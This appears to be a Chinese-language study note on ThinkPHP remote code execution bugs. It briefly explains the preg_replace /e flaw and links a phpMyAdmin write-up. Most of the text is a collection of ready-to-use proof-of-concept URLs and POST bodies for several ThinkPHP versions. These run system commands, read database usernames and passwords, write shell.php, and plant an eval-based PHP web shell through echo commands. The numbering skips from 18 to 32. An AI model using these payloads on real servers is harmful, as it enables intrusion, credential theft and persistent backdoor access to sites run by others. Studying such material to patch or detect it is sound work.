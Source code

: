 **thinkphp rce漏洞**：比如5.0版本有个rce漏洞，该漏洞的漏洞关键点存在于thinkphp/library/think/Request.php文件中
在docker中复现了多种版本的rce漏洞。

**漏洞的原理有了解吗,攻击后的返回包的有分析过吗?**
THINKPHP RCE漏洞的原理：举例有一个RCE是这样的：Dispatcher.class.php中res参数中使用了preg_replace的/e危险参数，使得preg_replace第二个参数就会被当做php代码执行，导致存在一个代码执行漏洞，攻击者可以利用构造的恶意URL执行任意PHP代码。

^
phpMyadmin漏洞：
<https://dummykitty.github.io/php/2020/11/22/phpmyadmin-%E5%90%8E%E5%8F%B0-getshell-%E5%8F%8A%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E6%80%9D%E8%B7%AF%E6%95%B4%E7%90%86.html#cve-2013-3238>


^
## **Thinkphp POC大全**
在 Vulhub 中，也可以找到了该漏洞的利用 POC

**Thinkphp 5.0.22 POC**
1. `http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.username`
2. `http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.password`
3. `http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id`
4. `http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`

**Thinkphp 5 POC**
5. `http://127.0.0.1/tp5/public/?s=index/\think\View/display&content=%22%3C?%3E%3C?php%20phpinfo();?%3E&data=1`

**Thinkphp 5.0.21 POC**
6. `http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id`
7. `http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`

**Thinkphp 5.1.x POC**
8. `http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=phpinfo&data=1`
9. `http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=system&data=cmd`
10. `http://url/to/thinkphp5.1.29/?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E`
11. `http://url/to/thinkphp5.1.29/?s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3E`
12. `http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`
13. `http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd`
14. `http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`
15. `http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd`

**Thinkphp 未知版本 POC**
16. `?s=index/\think\module/action/param1/${@phpinfo()}`
17. `?s=index/\think\Module/Action/Param/${@phpinfo()}`
18. `?s=index/\think/module/aciton/param1/${@print(THINK_VERSION)}`

**Thinkphp 5.0.23 (完整版) debug模式 POC**
32. `(post)public/index.php 
32. (data)_method=__construct&filter[]=system&server[REQUEST_METHOD]=touch%20/tmp/xxx`

```
echo "<?php phpinfo();?>" > /var/www/public/test2.php

echo "<?php @eval(\$_POST['cmd']);?>" > /var/www/public/test.php
```




**Thinkphp 5.0.23 (完整版) POC**
33. `（post）public/index.php?s=captcha
33.  (data) _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls -al`

**Thinkphp 5.0.10 (完整版) POC**
34. `(post)public/index.php?s=index/index/index (data)s=whoami&_method=__construct&method&filter[]=system`

**Thinkphp 5.1.x 和 5.2.x 和 5.0.x POC**
35. `(post)public/index.php (data)c=exec&f=calc.exe&_method=filter`
